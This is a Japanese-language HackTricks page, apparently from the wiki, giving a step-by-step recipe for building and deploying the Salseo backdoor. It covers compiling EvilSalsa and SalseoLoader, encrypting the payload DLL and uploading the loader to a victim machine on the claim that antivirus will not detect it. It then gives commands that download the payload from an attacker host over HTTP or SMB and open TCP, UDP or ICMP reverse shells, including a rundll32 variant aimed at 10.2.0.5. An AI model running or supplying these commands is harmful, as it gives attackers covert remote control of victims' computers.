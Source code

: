 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## バイナリのコンパイル

githubからソースコードをダウンロードし、**EvilSalsa**と**SalseoLoader**をコンパイルします。コードをコンパイルするには**Visual Studio**が必要です。

使用するWindowsボックスのアーキテクチャに合わせてこれらのプロジェクトをコンパイルします（Windowsがx64をサポートしている場合は、そのアーキテクチャ用にコンパイルします）。

**Visual Studio**の**左側の「Build」タブ**の**「Platform Target」**で**アーキテクチャを選択**できます。

(\*\*このオプションが見つからない場合は、**「Project Tab」**をクリックし、次に**「\<Project Name> Properties」**をクリックします)

![](<../.gitbook/assets/image (839).png>)

次に、両方のプロジェクトをビルドします（Build -> Build Solution）（ログ内に実行可能ファイルのパスが表示されます）：

![](<../.gitbook/assets/image (381).png>)

## バックドアの準備

まず最初に、**EvilSalsa.dll**をエンコードする必要があります。そのためには、pythonスクリプト**encrypterassembly.py**を使用するか、プロジェクト**EncrypterAssembly**をコンパイルします：

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### ウィンドウズ
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
わかりました。Salseoのすべてを実行するために必要なものは揃っています: **エンコードされた EvilDalsa.dll** と **SalseoLoader のバイナリ**。

**SalseoLoader.exe バイナリをマシンにアップロードします。どのAVにも検出されないはずです...**

## **バックドアを実行する**

### **TCPリバースシェルを取得する（HTTPを通じてエンコードされたdllをダウンロードする）**

ncをリバースシェルリスナーとして起動し、エンコードされたevilsalsaを提供するHTTPサーバーを起動することを忘れないでください。
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **UDPリバースシェルの取得（SMBを通じてエンコードされたdllをダウンロード）**

リバースシェルリスナーとしてncを起動し、エンコードされたevilsalsaを提供するためにSMBサーバーを起動することを忘れないでください。
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **ICMPリバースシェルの取得（被害者の中にエンコードされたdllが既に存在する）**

**今回は、リバースシェルを受信するためにクライアントに特別なツールが必要です。ダウンロード：** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP応答を無効にする：**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### クライアントを実行する：
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### 被害者の内部で、salseoのことを実行しましょう:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## SalseoLoaderをDLLとしてコンパイルし、メイン関数をエクスポートする

Visual Studioを使用してSalseoLoaderプロジェクトを開きます。

### メイン関数の前に追加: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### このプロジェクトにDllExportをインストールする

#### **ツール** --> **NuGetパッケージマネージャー** --> **ソリューションのNuGetパッケージを管理...**

![](<../.gitbook/assets/image (881).png>)

#### **DllExportパッケージを検索（ブラウザタブを使用）し、インストールを押す（ポップアップを受け入れる）**

![](<../.gitbook/assets/image (100).png>)

プロジェクトフォルダーに**DllExport.bat**と**DllExport\_Configure.bat**のファイルが表示されます。

### **U**ninstall DllExport

**アンインストール**を押します（そう、変ですが信じてください、必要です）

![](<../.gitbook/assets/image (97).png>)

### **Visual Studioを終了し、DllExport\_configureを実行する**

ただ**終了**します

次に、**SalseoLoaderフォルダー**に移動し、**DllExport\_Configure.bat**を実行します。

**x64**を選択します（x64ボックス内で使用する場合、私のケースです）、**System.Runtime.InteropServices**を選択します（**DllExportの名前空間内**）そして**適用**を押します。

![](<../.gitbook/assets/image (882).png>)

### **Visual Studioでプロジェクトを再度開く**

**\[DllExport]**はもはやエラーとしてマークされていないはずです。

![](<../.gitbook/assets/image (670).png>)

### ソリューションをビルドする

**出力タイプ = クラスライブラリ**を選択します（プロジェクト --> SalseoLoaderプロパティ --> アプリケーション --> 出力タイプ = クラスライブラリ）

![](<../.gitbook/assets/image (847).png>)

**x64** **プラットフォーム**を選択します（プロジェクト --> SalseoLoaderプロパティ --> ビルド --> プラットフォームターゲット = x64）

![](<../.gitbook/assets/image (285).png>)

ソリューションを**ビルド**するには: ビルド --> ソリューションのビルド（出力コンソール内に新しいDLLのパスが表示されます）

### 生成されたDllをテストする

テストしたい場所にDllをコピーして貼り付けます。

実行:
```
rundll32.exe SalseoLoader.dll,main
```
エラーが表示されない場合、おそらく機能するDLLがあります!!

## DLLを使用してシェルを取得する

**HTTP** **サーバー**を使用し、**nc** **リスナー**を設定することを忘れないでください。

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}
